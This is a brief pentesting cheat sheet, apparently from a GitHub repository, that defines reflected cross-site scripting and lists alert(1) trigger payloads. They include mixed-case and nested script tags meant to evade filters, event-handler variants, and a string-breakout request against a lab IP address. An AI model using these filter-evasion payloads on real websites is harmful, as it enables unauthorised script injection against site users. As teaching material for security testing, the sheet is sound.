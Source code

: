### Definition.

XSS or CrossSiteScripting is a client-side vulnerability which involves the execution of malicious JavaScript code based on the reflexion of data given by the user (not properly sanitized) in the HTML response.
<br>

### CheatSheet.

This is a simply cheatsheet for XSS trigger.

Suppose we have an input point;

- Try: 

    ```html
    <script>alert(1)</script>
    ```

- Modify tags:

    ```html
    <sCrIpT>alert(1)</ScRiPt>
    ```

- Repeat tags:

    ```html
    <scr<script>ipt>alert(1)</scr</script>ipt>
    ```

- Research to find another way to execute javascript, through other tags, events, etc, avoiding using keywords as script:

    ```html
    <a hef="javascript:alert(1)">
    <IMG src=x onmouseover="alert('xxs')">
    ```

    Other techniques would involve using **eval and String.fromCharCode()**, **prompt** or **confirm** to make a payload that trigger an alert box with out using alert keyword.

    There is a complete cheatsheet on the following ![link](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

- Check HTML response code if you can bypass HTML response counter measures to javascript injection:

    ```text
    http://172.16.66.128/xss/example6.php?name=";</script><script>alert(1)</script>
    ```
    
    ```html
    Hello 
    <script>
	    var $a= "";</script><script>alert(1)</script>";
    </script>
    ```

- See if, among the entry point, there exists others things within the HTTP request that are being include in the html of the response, for example, the URL trying to be accesed by the user.

- In the last thing, you can use an automated tool (![XSStrike](https://github.com/s0md3v/XSStrike)) in order to launch a dictionary attack against an input point.